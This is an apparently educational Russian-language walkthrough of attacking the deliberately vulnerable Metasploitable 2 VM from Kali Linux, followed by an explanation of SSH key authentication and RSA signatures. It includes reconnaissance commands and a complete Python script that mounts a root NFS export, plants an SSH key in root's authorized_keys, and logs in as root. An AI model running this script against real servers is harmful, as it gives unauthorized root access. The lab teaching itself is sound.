







1)в VirtualBox Запускаем ОС Kali Linux 2026.1 и за ней сразу запускаем ОС Metasploitable 2.
2)запуск Metasploitable 2 остановился на логине, и на этом все- забываем про эту ОС.
3)запускаем терминал Kali Linux и даем команду ifconfig - это покажет наш IP (все как в предыдущем уроке). команда ifconfig выдала наш IP 10.0.2.3 (выделено на скриншоте ниже).

4)по этому IP находим все компьютеры в сети, для того что бы найти все компьютеры в сети даем команду sudo netdiscover -r 10.0.2.0/24 и команда нам выдала IP Metasploitable 2 10.0.2.6 - как уже сообщалось в предыдущей части статьи, при каждом запуске VirtualBox может выдавать разные, другие IP адреса. причем при одном из запусков в выводе netdiscover у меня показало в списке дополнительное еще какой то IP 10.0.2.1 - не обращайте на это внимание, если такой же вывод будет у вас, это могут быть внутренние IP самого VirtulaBox.
кто не хочет вводить команды в терминал Kali Linux на клавиатуре, можете просто сделать "копи-пасте" команды ниже.
sudo netdiscover -r 10.0.2.0/24


5)теперь у нас есть IP целевой машины с Metasploitable 2 для формальности сделаем ping 10.0.2.6 и видим машина отвечает на запросы.
ping 10.0.2.6

6)теперь у нас есть IP целевой машины с Metasploitable 2, при помощи nmap сканируем порты на этом IP для обнаружения сервисов, и версии сервисов:
nmap -sC -sV 10.0.2.5
в выводе nmap есть три таких строки
22/tcp open ssh OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
111/tcp open rpcbind 2 (RPC #100000)
2049/tcp open nfs 2-4 (RPC #100003)
первая строка значит что на удаленной машине работает ssh что нам и нужно, open - значит порт открыт, порт 22 протокол tcp, указана версия OpenSSH.
вторая строка говорит что открыт TCP-порт 111 и на нем работает служба rpcbind версии 2; rpcbind является своего рода диспетчером, который сообщает, на каких портах работают RPC-службы. mountd — это RPC-служба, пригодиться нам далее. open - значит порт открыт.
третья строка: 2049 — номер порта, tcp — используется протокол TCP. Порт 2049 является стандартным портом NFS. open - Порт открыт и принимает соединения. nfs - значит nmap определил, что на этом порту работает служба NFS (Network File System). NFS позволяет одному компьютеру предоставить свои каталоги другим компьютерам по сети так, как будто это локальный диск.
Например, сервер может экспортировать каталог:
/home/shared
А клиент может смонтировать его:
mount -t nfs 10.0.2.5:/home/shared /mnt
После этого каталог /home/shared будет доступен на клиенте через каталог /mnt.
в строке вывода nmap 2-4 это версии протокола NFS, которые поддерживает сервер.
В данном случае:
NFS v2
NFS v3
NFS v4
То есть сервер умеет работать сразу с тремя версиями протокола.
(RPC #100003)
Это идентификатор RPC-программы.
То есть эта строка говорит:
"На сервере зарегистрирована RPC-программа №100003 (NFS)."
в этом примере мы будем использовать скрипт на Python отсюда:
https://github.com/wg135/script/blob/master/add_ssh_key.py
но этот скрипт немного устаревший, поэтому я его исправил, рабочая версия ниже. создайте у себя в домашнем каталоге файл add_ssh_key.py:
nano add_ssh_key.py
и скопируйте в него код скрипта ниже:
#! /usr/bin/env python
## mount the NFS export, and add the key to th root user account's authorized_key file
import sys
import os
ip = sys.argv[1]
os.system("mkdir -p /tmp/bob1bob2")
os.system("mount -t nfs -o vers=3 %s:/ /tmp/bob1bob2/" % ip)
os.system("cat ~/.ssh/id_rsa.pub >> /tmp/bob1bob2/root/.ssh/authorized_keys ")
os.system("umount /tmp/bob1bob2")
os.system("ssh -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedAlgorithms=+ssh-rsa root@%s" % ip)
В нашем случае этот скрипт может оказаться применим, потому что у нас есть NFS в выводе nmap.
Из вывода nmap видно:
111/tcp open rpcbind
2049/tcp open nfs
Это означает, что:
работает RPC (rpcbind);
работает сервер NFS;
работает mountd.
Но этого еще недостаточно.
Следующий шаг — посмотреть, что именно экспортирует NFS.
Выполним:
showmount -e 10.0.2.6
и видим такой вывод
еще может быть такой вывод
Export list for 10.0.2.5: /home *(rw) / *(rw)
скрипт имеет смысл использовать. Этот вывод означает, что скрипт как раз рассчитан на такой случай.
Почему именно так. Посмотрим на строку из скрипта:
mount -t nfs -o vers=3 %s:/ /tmp/bob1bob2/
Он пытается смонтировать <IP>:/то есть корневой каталог /.
Если сервер не экспортирует /, то команда просто завершится ошибкой и скрипт не сработает.
Еще один важный момент
Даже если / экспортируется, нужно, чтобы можно было изменять файлы от имени root. Обычно для этого используется небезопасная настройка no_root_squash.
Именно поэтому этот прием работает на Metasploitable 2 — эта виртуальная машина специально настроена с уязвимостями для обучения.
Мы получили:
Export list for 10.0.2.5: / *
Это означает:
экспортируется корневая файловая система (/);
доступ разрешен любому клиенту (*);
Именно поэтому в скрипте есть строка:
mount -t nfs -o vers=3 10.0.2.5:/ /tmp/bob1bob2/
Она должна успешно смонтировать корневую файловую систему удаленной машины.
После этого каталог /tmp/bob1bob2 на нашей Kali станет отображением удаленной файловой системы. Например:
/tmp/bob1bob2/ ├── bin ├── boot ├── dev ├── etc ├── home ├── root ├── usr └── var
Отвлечемся немного от основной темы, как происходит в работе скрипта, вы можете самостоятельно дать команду в терминале:
sudo mount -t nfs 10.0.2.6:/ /mnt

видим смонтировалась удаленная файловая система (как делает скрипт на Python), далее можно дать команду ls - для проверки что смонтировалась:

поскольку далее мы будем запускать скрипт, мы должны сейчас дать команду umount для размонтирования файловой системы:
sudo umount /mnt

Вернемся к нашей основной теме.
Далее скрипт выполняет:
cat ~/.ssh/id_rsa.pub >> /tmp/bob1bob2/root/.ssh/authorized_keys
То есть он добавляет наш публичный SSH-ключ в файл authorized_keys пользователя root на удаленной машине.
Затем:
umount /tmp/bob1bob2
и сразу пытается войти:
ssh root@10.0.2.5
Почему в статье достаточно только этого.
На Metasploitable 2 экспорт NFS специально настроен небезопасно для учебных целей. Поэтому комбинация:
делает возможным добавление SSH-ключа и последующий вход по SSH.
7)теперь у нас есть исправленный скрипт, и он может работать. Далее у нас на локальной машине создаем пару ключей
Откройте терминал Kali Linux и выполните команду
sudo ssh-keygen -t rsa -b 4096
Параметры:
-t rsa — использовать алгоритм RSA.
-b 4096 — длина ключа 4096 бит (рекомендуется).
это создаст файлы ключей в папке
/root/.ssh/id_rsa
/root/.ssh/id_rsa.pub
где id_rsa это приватный ключ и id_rsa.pub это публичный ключ. подробно об этой специфике в криптографии - приватный, публичный ключ будет рассказано в конце.
если без sudo то будут в папке
/home/kali/.ssh/id_rsa
/home/kali/.ssh/id_rsa.pub
после запуска команды ssh-keygen нажимайте Enter для продолжения несколько раз для окончания работы команды (используем настройки команды по умолчанию).
далее мы запускам скрипт
sudo python add_ssh_key.py 10.0.2.6
sudo значит скрипт будет искать ключи для root - папки должны совпадать если sudo для создания ключей то sudo для скрипта.
после выполнения команды на такой запрос
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
нужно ответить yes
Что на самом деле делает скрипт.
Он выполняет следующие действия:
Создает каталог
mkdir -p /tmp/bob1bob2
Пытается смонтировать по NFS корневую файловую систему удаленной машины
mount -t nfs -o vers=3 <IP>:/ /tmp/bob1bob2/
То есть предполагается, что сервер NFS уже неправильно настроен и позволяет клиенту смонтировать экспорт /.
Добавляет ваш публичный SSH-ключ на удаленнную машину:
cat ~/.ssh/id_rsa.pub >> /tmp/bob1bob2/root/.ssh/authorized_keys
Фактически он редактирует файл Metasploitable 2:
/root/.ssh/authorized_keys
на удаленной машине.
Отмонтирует NFS.
Заходит по SSH:
ssh root@
уже используя только что добавленный ключ.
То есть этот скрипт работает только если
Есть две вещи одновременно.
1. SSH вообще работает
Например
22/tcp open ssh OpenSSH 4.7p1
Это необходимо просто потому, что в конце скрипт подключается по SSH.
Версия SSH здесь почти не имеет значения.
2. NFS настроен небезопасно
Именно это является главным условием.
Например, если showmount показывает
/ *
или
/ (rw,no_root_squash)
или аналогичную опасную конфигурацию удаленной машины.
Тогда можно смонтировать файловую систему и изменить
/root/.ssh/authorized_keys
Эксплуатируется не SSH.
Эксплуатируется неправильная настройка NFS, а SSH используется только как способ входа после добавления ключа.
Что нужно что бы эксплуатировать эту уязвимость.
Нужно убедиться, что:
открыт порт NFS (обычно 111 и 2049/TCP, а также связанные службы RPC);
экспорт NFS доступен;
экспорт разрешает запись;
благодаря настройкам (например, no_root_squash) можно изменять файлы пользователя root.
Именно наличие такой небезопасной конфигурации NFS делает этот скрипт полезным, а версия OpenSSH сама по себе значения не имеет.
что изменено в скрипте по сравнению с оригинальной версией на github
1)убрать лишний пробел где %s:/
os.system("mount -t nfs %s:/ /tmp/bob1bob2/" % ip)
2)добавить версию nfs в скрипт
os.system("mount -t nfs -o vers=3 %s:/ /tmp/bob1bob2/" % ip)
3)заменить создание каталога в скрипте добавить -p
os.system("mkdir -p /tmp/bob1bob2")
4)добавлены алгоритмы шифрования так как Metasploitable 2 очень старая машина и для современного Kali 2026.1 нужно точно указывать какой алгоритм шифрования использовать при подключении ssh:
os.system("ssh -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedAlgorithms=+ssh-rsa root@%s" % ip)
то есть на чем базируется уязвимость - в настройках на сервере указано no_root_squash это позволяет на сервер записать файлы необходимые для авторизации ssh, мы монтируем удаленную систему, записываем эти файлы, потом без проблем заходим по ssh
Схема атаки выглядит так:
1. На сервере запущен NFS.
│
▼
2. В exports указано:
/ *(rw,no_root_squash)
или аналогичная небезопасная конфигурация.
│
▼
3. Мы монтируем удаленную файловую систему.
│
▼
4. Получаем возможность изменять файлы
в файловой системе сервера.
│
▼
5. Записываем свой публичный ключ в
/root/.ssh/authorized_keys
│
▼
6. Отмонтируем NFS.
│
▼
7. Заходим по SSH как root,
используя соответствующий приватный ключ.
Почему здесь важен no_root_squash.
В обычной безопасной конфигурации NFS действует механизм root squashing.
Когда клиент обращается к серверу от имени root, сервер говорит примерно следующее:
«Я не доверяю root с удаленной машины. Для меня он будет обычным непривилегированным пользователем (например, nobody).»
Поэтому попытка выполнить
echo "..." >> /mnt/root/.ssh/authorized_keys
закончится ошибкой Permission denied.
Если же в настройках экспорта указан
no_root_squash
то сервер (удаленная машина) говорит:
«Я полностью доверяю root с клиента.»
Тогда удаленный root действительно становится root на сервере через NFS.
В результате можно:
Именно это и использует данный скрипт.
Почему после этого SSH ничего не "замечает"
SSH работает так:
Клиент подключается.
Сервер открывает файл
/root/.ssh/authorized_keys
Если публичный ключ клиента найден в этом файле, сервер считает, что владелец соответствующего приватного ключа успешно прошел аутентификацию.
SSH не знает, кто и каким способом добавил этот ключ в authorized_keys. Для него это обычный доверенный ключ.
Поэтому можно сказать, что уязвимость основана не на SSH, а на небезопасной конфигурации NFS (rw + no_root_squash). SSH здесь лишь используется как легальный механизм входа после того, как файл authorized_keys был изменен через NFS.
На компьютере клиента (нашей Kali)
После создания ключей командой
ssh-keygen
обычно появляются два файла:
~/.ssh/id_rsa
~/.ssh/id_rsa.pub
или, если используется современный алгоритм:
~/.ssh/id_ed25519 ~/.ssh/id_ed25519.pub
Их назначение:
id_rsa — приватный ключ. Он должен храниться только у нас локально на Kali Linux. Его никому нельзя передавать.
id_rsa.pub — публичный ключ. Именно его можно копировать на сервер в файл authorized_keys.
На сервере (удаленной машине):
В домашнем каталоге пользователя (например, root) есть каталог:
/root/.ssh/
Внутри находится файл:
/root/.ssh/authorized_keys
В нем не лежат файлы id_rsa или id_rsa.pub.
В нем просто хранится список разрешенных публичных ключей.
Например:
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC... user@kali
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIG... admin@laptop
Каждая строка — это один разрешенный публичный ключ.
Что делает наш скрипт
Он берет наш публичный ключ на Kali Linux:
~/.ssh/id_rsa.pub
и дописывает его на удаленную машину в файл:
/root/.ssh/authorized_keys
То есть фактически выполняет что-то вроде:
cat ~/.ssh/id_rsa.pub >> /root/.ssh/authorized_keys
Визуально это выглядит так
Наша Kali
~/.ssh/
├── id_rsa ← приватный ключ (никогда не покидает твою машину)
└── id_rsa.pub ← публичный ключ
│
│ копируется
▼
Сервер
/root/.ssh/
└── authorized_keys ← содержит список разрешенных публичных ключей
Когда мы затем выполняем:
ssh root@10.0.2.5
происходит следующее:
SSH-клиент использует id_rsa (приватный ключ) для подтверждения своей личности.
SSH-сервер открывает файл /root/.ssh/authorized_keys.
Если в нем есть соответствующий публичный ключ, аутентификация проходит успешно, и мы входим как root.
Именно поэтому скрипт копирует не приватный ключ и не файл id_rsa, а содержимое id_rsa.pub в файл authorized_keys на удаленном сервере.
То есть клиент отправляет серверу свой публичный ключ (или его идентификатор), чтобы сообщить: "я хочу аутентифицироваться этим ключом". Сервер проверяет, есть ли у него соответствующий публичный ключ в файле:
/root/.ssh/authorized_keys
Если такого ключа нет, сервер сразу отвечает отказом.
Но если ключ найден, это еще не означает успешный вход- процедура аутенификации немного сложнее.
поэтому злоумышленнику достаточно добавить свой публичный ключ в authorized_keys: у него уже есть соответствующий приватный ключ на своей машине, и он может корректно подписать challenge. Без приватного ключа наличие записи в authorized_keys само по себе не позволит войти- процедура аутенификации сложнее.
По-простому challenge — это случайная проверочная строка, которую сервер придумывает специально для проверки клиента.
Например:
Клиент говорит:
У меня есть вот этот публичный ключ.
Сервер отвечает:
Хорошо. Тогда подпиши вот эту случайную строку:
8F29A1BC74D3E91F
Эта случайная строка и есть challenge.
Клиент берет свой приватный ключ (id_rsa) и создает подпись этой строки.
Отправляет подпись серверу.
Сервер проверяет подпись с помощью публичного ключа из authorized_keys.
Если подпись правильная, значит клиент действительно владеет приватным ключом.
то есть сервер берет подпись сделанную на клиенте при помощи приватного ключа, и проверят его с помощью своего публичного ключа
Вот это как раз самая сложная часть RSA и других алгоритмов. и мы дошли до того места, где без понимания математики возникает ощущение: «Как такое вообще возможно?» - что подпись шифруется приватным ключем, а проверка подписи публичным ключем.
Ответ такой: это специально придумано в математике. Не существует простой бытовой логики, которая полностью объясняет этот механизм. Но можно понять идею.
Что происходит в SSH
У клиента есть:
приватный ключ;
публичный ключ.
У сервера есть только публичный ключ.
Допустим, сервер отправил challenge:
123456789
Клиент делает
Подпись = Sign(приватный_ключ, "123456789")
Получилась подпись
X8A93FD...
Он отправляет серверу:
challenge сервер уже знает;
подпись X8A93FD....
Теперь сервер делает
Verify(публичный_ключ, "123456789","X8A93FD...")
И получает либо
TRUE
либо
FALSE
таким образом полная последовательность подключения по ssh выглядит так:
У клиента есть:
приватный ключ (id_rsa);
публичный ключ (его можно вычислить из приватного или хранить отдельно).
У сервера в файле ~/.ssh/authorized_keys хранится публичный ключ клиента.
Клиент сообщает серверу, какой публичный ключ он хочет использовать. то есть когда вы запускаете команду:
ssh -i id_rsa user@server
SSH-клиент сначала читает файл id_rsa (приватный ключ).
Затем из этого приватного ключа вычисляет соответствующий публичный ключ (если он еще не загружен или не прочитан из файла .pub).
Это нужно потому, что в authorized_keys может быть несколько десятков или сотен ключей, и сервер должен понять, какой из них искать.
Сервер ищет этот публичный ключ в authorized_keys.
Если такого ключа нет — сразу отказ.
Если найден — начинается криптографическая проверка.
Сервер создает случайное значение (challenge).
Например:
123456789
Клиент подписывает challenge своим приватным ключом.
Signature = Sign(private_key, challenge)
Получается, например,
X8A93FD...
Клиент отправляет серверу только подпись (и служебную информацию об алгоритме).
Приватный ключ никуда не передается.
Сервер проверяет подпись своим публичным ключом из authorized_keys.
Verify(public_key, challenge, signature)
Результат:
TRUE
или
FALSE
Важно понимать:
вычислить публичный ключ из приватного — можно;
вычислить приватный ключ из публичного — практически невозможно.
Поэтому сервер получает только публичный ключ.
Публичный ключ не может расшифровать произвольные данные, зашифрованные приватным ключом.
И это верно в контексте современных алгоритмов SSH.
Что происходит в SSH на самом деле
Сервер не расшифровывает challenge.
Он делает совсем другое:
Сервер создает challenge:
123456789
Клиент вычисляет подпись:
Signature = Sign(private_key, challenge)
Например:
Signature = X8A93FD...
Клиент отправляет серверу:
challenge (или сервер уже его знает);
подпись.
Сервер выполняет:
Verify(public_key, challenge, signature)
Обратите внимание: здесь нет операции "Decrypt" (расшифровать).
Что делает Verify?
Функция Verify отвечает только на вопрос:
«Эта подпись действительно была создана приватным ключом, соответствующим данному публичному ключу?»
Она возвращает только:
TRUE
или
FALSE
Она не восстанавливает challenge из подписи и ничего не расшифровывает.
Вобщим, это такая специфика криптографии, которая может быть и не понятно как работает, но нужно принять ее "как есть".
Если интересно именно "как" тогда уже придется немного заглянуть в математику RSA.
В RSA существуют две разные операции:
Подпись:
signature = message^d mod n
где d — приватный ключ.
Проверка:
message = signature^e mod n
где e — публичный ключ.
Именно потому, что числа e, d и n специальным образом связаны между собой, вторая операция восстанавливает и проверяет результат первой. Это не магия, а свойство модульной арифметики и того, как генерируется пара ключей.
Поэтому серверу не нужен приватный ключ. Ему достаточно публичного ключа, чтобы проверить, что подпись действительно могла быть создана только соответствующим приватным ключом.
Именно эта математическая связь между двумя ключами и является основой всей асимметричной криптографии.
Можно принять следующие факты как свойства алгоритма:
Именно это и используется в SSH.
Во время входа:
Как именно публичный ключ позволяет проверить подпись — это уже внутреннее свойство алгоритмов RSA, ECDSA или Ed25519. Для понимания SSH это можно принять как математический факт. Если чиатетль хочет разобраться глубже, тогда потребуется изучить основы теории чисел, модульной арифметики и устройства конкретного алгоритма подписи.
использование уязвимости возможно только когда администратор настроил экспорт, и на сервере включена конфигурация NFS (rw + no_root_squash) - то есть на файловую систему сервера разрешена запись. в процессе взлома, и получения удаленного доступа, эта уязвимость использует скрипт. скрипт монтирует удаленную файловую систему, добавляет публичный ключ из машины клиента на сервер в файл /root/.ssh/authorized_keys, так как разрешена запись на сервер. после этого без проблем можно зайти на удаленную машину по ssh. уязвимость возникает не в SSH, а в небезопасной конфигурации NFS. во время подключения SSH-сервер обнаруживает, что публичный ключ клиента присутствует на сервере, затем выполняет стандартную проверку владения соответствующим приватным ключом. поскольку злоумышленник владеет этим приватным ключом, аутентификация проходит успешно, и он получает доступ как root.
приватный, публичный ключ как работают, используются в ассиметричном шифровании.
При передаче данных важны два аспекта:
Асимметричное шифрование: Использует пару ключей (публичный и приватный). Публичный ключ используется для шифрования, а приватный — для расшифровки. Перехватить публичный ключ не опасно, так как только владелец приватного ключа может расшифровать данные. Симметричное шифрование: Использует один и тот же ключ для шифрования и расшифровки. Если ключ перехвачен, данные могут быть расшифрованы. Поэтому безопасность передачи ключа критически важна.
